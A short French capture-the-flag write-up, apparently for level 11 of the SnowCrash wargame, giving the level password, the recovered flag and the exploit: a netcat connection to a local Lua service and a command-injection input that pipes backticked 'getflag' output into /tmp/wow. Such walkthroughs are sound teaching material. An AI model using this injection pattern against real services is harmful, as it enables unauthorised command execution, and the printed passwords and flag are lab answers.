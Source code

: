 # level 11

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
feulo4b72j7edeahuete3no7c
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

Y’a un code LUA, il fait croire qu’il faut dehash une string mais ça mène à rien.

À la place il faut faire un équivalent de SQL Injection.
```cmd
nc 127.0.0.1 5151

wow | echo `getflag` > /tmp/wow
```
On cat le résultat dans `/tmp/wow` -> `fa6v5ateaw21peobuub8ipe6s`


```cmd
su level12
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
fa6v5ateaw21peobuub8ipe6s
```